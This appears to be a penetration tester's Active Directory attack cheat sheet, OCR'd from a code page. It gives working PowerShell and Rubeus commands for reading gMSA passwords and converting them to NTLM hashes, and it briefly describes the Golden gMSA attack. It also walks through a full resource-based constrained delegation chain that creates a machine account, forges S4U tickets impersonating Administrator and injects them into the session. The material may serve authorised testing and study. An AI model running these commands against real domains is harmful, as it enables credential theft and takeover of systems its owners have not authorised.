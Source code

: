 | Command | Description |
| --- | --- |
| Get-ADServiceAccount -Filter * | Get all gMSA accounts (denoted with the object class msDS-GroupManagedServiceAccount) |
| Get-ADServiceAccount -Identity gmsa_account_0xd4y -Properties * | select PrincipalsAllowedToRetrieveManagedPassword | Get users that can read the msds-ManagedPassword attribute |

**************************************************************************Converting gMSA Password to NTLM Hash**************************************************************************

```powershell
$PasswordBlob = (Get-ADServiceAccount -Identity 0xd4y -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
Import-Module C:\PATH\TO\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $PasswordBlob 
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

### Golden gMSA

- an attack in which gMSA is calculated offline using the KDS root key object
    - only DAs, EAs, and SYSTEM can retrieve KDS root key

## Constrained Delegation - Kerberos Only

S4U2Self does not work because it does not have TRUSTED_TO_AUTH_FOR_DELEGATION configured

- leverage resource-based constrained delegation (RBCD)
    1. Create new machine account
    2. Configured RBCD on machine
    3. Get TGS for machine using new machine account
    4. Request forwardable TGS using the previous TGS

**Getting access to target_machine from original_machine**

```powershell
# Get machines with constrained delegation
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo

# Create new machine accouunt (use Powermad.ps1)
New-MachineAccount -MachineAccount new_machine_account

# Inject original machine account TGT in session
Rubeus.exe asktgt /user:machine_account$ /aes256:<MACHINE_ACCOUNT_AES256_KEY> /impersonateuser:Administrator /domain:notes.0xd4y.local /ptt /nowrap

# Configure TRUST_TO_AUTH_FOR_DELEGATION
Set-ADComputer -Identity original_machine_account$ -PrincipalsAllowedToDelegateToAccount new_machine_account$ 

# Convert password of new machine account to NTLM hash
Rubeus.exe hash /password:new_machine_account_pass

# Get TGS for service
Rubeus.exe s4u /impersonateuser:Administrator /user:new_machine_account$ /rc4:<NTLM_HASH> /msdsspn:cifs/original_machine.notes.0xd4y.local /nowrap

# Inject TGS in current session
Rubeus.exe s4u /tgs:<TGS> /user:original_machine_account$ /aes256:<MACHINE_ACCOUNT_AES256_KEY> /msdsspn:cifs/target_machine.notes.0xd4y.local /altservice:http /nowrap /ptt
```
